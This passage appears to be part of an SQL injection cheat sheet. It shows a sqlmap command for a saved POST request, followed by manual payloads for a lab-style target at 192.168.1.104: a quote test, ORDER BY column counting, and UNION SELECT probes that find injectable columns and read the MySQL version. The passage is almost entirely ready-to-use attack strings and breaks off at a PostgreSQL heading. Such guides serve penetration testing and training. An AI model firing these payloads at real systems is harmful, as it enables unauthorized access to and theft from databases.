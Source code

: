 You can also use a file like with the post request:

```shell
./sqlmap.py -r post-request.txt -p uname
```

### Bare Hands

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```shell
http://192.168.1.104/Less-1/?id=5'
```

#### Fuzzing

Sorting columns to find maximum column:

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

> Until it stop returning errors.

---

#### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

> Using the same amount of columns you got on the previous step.

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

> Using the same amount of columns you got on the previous step.

One of the columns will be printed with the respective number.

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**
